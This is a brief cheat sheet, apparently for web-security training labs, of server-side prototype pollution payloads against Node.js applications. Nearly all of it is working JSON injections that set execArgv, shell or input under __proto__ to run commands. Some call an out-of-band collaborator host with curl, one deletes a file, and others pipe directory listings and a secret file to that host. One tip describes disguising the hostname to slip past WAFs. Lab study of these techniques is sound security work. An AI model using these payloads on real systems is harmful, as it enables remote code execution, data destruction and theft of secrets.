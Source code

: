 For payloads - inject these into JSON body of HTTP requests:

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

Vim has an interactive prompt and expects the user to hit Enter to run the provided command. As a result, you need to simulate this by including a newline (\n) character at the end of your payload, as shown in the examples.

```json
"shell":"vim",
"input":":! <command>\n"
```

```json
"__proto__": {
    "shell":"vim",
    "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

To exfiltrate data to Burp Collaborator:

```json
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

```json
"__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames.

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

